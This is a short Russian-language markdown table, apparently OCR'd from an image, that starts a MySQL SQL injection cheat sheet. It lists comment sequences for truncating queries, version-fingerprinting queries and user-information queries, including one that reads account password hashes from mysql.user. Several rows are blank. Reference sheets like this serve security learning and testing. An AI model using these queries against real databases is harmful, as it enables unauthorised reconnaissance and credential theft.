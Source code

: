 |    Тип SQL-инъекции        | Описание                      
|----------------|-------------------------------|
|Коментарии  | #<br>/*<br>-- -<br>;%00|   
|Получение версии | SELECT VERSION();/n SELECT @@VERSION; SELECT @@GLOBAL.VERSION; |   
|Получение информации о пользователе | SELECT user() SELECT current_user() SELECT system_user() SELECT session_user() SELECT user,password FROM mysql.user;|   
| | |   
| | |   
| | |   
| | |   
